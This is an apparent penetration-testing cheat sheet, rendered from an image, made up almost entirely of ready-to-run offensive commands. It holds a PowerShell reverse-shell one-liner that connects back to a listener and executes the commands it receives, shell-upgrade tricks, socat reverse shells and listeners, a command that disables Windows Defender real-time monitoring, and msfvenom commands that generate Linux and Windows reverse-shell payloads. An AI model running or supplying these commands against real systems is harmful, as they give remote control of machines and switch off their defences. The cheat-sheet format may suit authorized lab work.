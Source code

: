 ```powershell
### PowerShell one-liner used to connect back to a listener
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Reverse Shell Upgrades

#### Python Shell Upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Full TTY Upgrade

```bash
stty raw -echo; fg
reset
xterm
```

#### Socat Reverse Shell

```bash
socat TCP:10.10.14.113:443 EXEC:/bin/bash
```

#### Socat Listener

```bash
socat TCP-LISTEN:443,reuseaddr,fork EXEC:/bin/bash
```

#### Disable Windows Defender Real-Time Monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Payload Generation with MSFvenom

#### Linux Reverse Shell Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

#### Windows Reverse Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```
